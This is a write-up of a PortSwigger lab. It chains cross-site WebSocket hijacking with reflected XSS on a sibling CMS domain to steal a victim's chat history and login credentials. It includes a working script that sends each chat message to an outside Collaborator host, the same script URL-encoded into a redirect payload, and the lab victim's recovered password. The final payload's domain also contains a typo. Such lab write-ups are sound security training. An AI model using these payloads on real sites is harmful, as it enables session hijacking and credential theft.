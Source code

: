 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1caf2613-97bd-408c-b8be-1207c3939685)

## Solution :

Now we go to the lab website:

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3bd67f6f-4db6-4932-ac23-666494c80bb9)

Ok, note that there is a “Live Chat” on the right-hand side on the top. We click that.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2be1ff38-156d-486f-9f74-d978e634184e)

So we randomly input some words in the text box.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/84eb4e0a-6d02-4230-a69c-628d63caee8c)

This is because our browser has stored our sessions, and every time we visit this /chat webpage, our browser sends the session value.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a803ac46-5a16-4b25-949e-a2c3b3513394)

>the SameSite=Strict property prevents the session from being sent if the web is visited through code (javascript) automatically. But if you are manually changing the address bar to visit the chat webpage, the session is allowed to be sent. And once you visit that /chat through code, your browser won’t send the session value and this value would be forgotten by your browser. This explains why refreshing does not see the chats.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7e794cb7-65b4-4725-a1ee-e2270f4089a8)

In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:

```html
<script>
    var ws = new WebSocket('wss://0ae0003304f26a8c80259e7b00a40040.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://1egq0nolwqq49rmg8ut5hdaxcoif65uu.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

> Because this exploit visits the /chat webpage by code, thus no sessions would be sent, and you can not see the chat history at all! Since now the session is already forgotten by our browser, we need to re-enter some words in the /chat webpage and sent that again to create some chat history.

This web page contains a cross-site scripting (XSS) vulnerability. You can execute arbitrary javascript code in the Username field.

Store and view the exploit .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5e762489-3561-4b83-bffd-9273d00b7391)

In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ddfc72f3-fe97-4d8c-b556-bd93d6c76dd5)

Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.

In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0e25d2c0-ebbc-4f82-b9bd-9e043dc0ba47)

## Identify an additional vulnerability in the same "site"

In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin header`, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.

Recreate the CSWSH script that you tested on the exploit server earlier.

```html
<script>
    var ws = new WebSocket('wss://0ae0003304f26a8c80259e7b00a40040.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://1egq0nolwqq49rmg8ut5hdaxcoif65uu.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

URL encode the entire script.

```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%65%30%30%30%33%33%30%34%66%32%36%61%38%63%38%30%32%35%39%65%37%62%30%30%61%34%30%30%34%30%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%31%65%67%71%30%6e%6f%6c%77%71%71%34%39%72%6d%67%38%75%74%35%68%64%61%78%63%6f%69%66%36%35%75%75%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e%0a%0a
```

Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter.

```html
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

Final payload -

```html
<script>
    document.location = "https://cms-0ae0003304f26a8c80259e7b00a40040.web-security-academ.net/login?username=
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%65%30%30%30%33%33%30%34%66%32%36%61%38%63%38%30%32%35%39%65%37%62%30%30%61%34%30%30%34%30%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%31%65%67%71%30%6e%6f%6c%77%71%71%34%39%72%6d%67%38%75%74%35%68%64%61%78%63%6f%69%66%36%35%75%75%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e%0a%0a&password=anything";
</script>
```

Store and Deliver the exploit .

In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c598cbe0-da05-4bfd-967b-58d599bc0761)

Study the HTTP interactions and notice that these contain the victim's chat history.Find a message containing the victim's username and password.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7368ab14-d256-4314-9050-10a43d393725)

 username =`carlos` 
 password= `ixltv1rh7aosnz665dc9`

Use the newly obtained credentials to log in to the victim's account and the lab is solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/81596910-a32d-4be7-be1a-06f5be9042be)
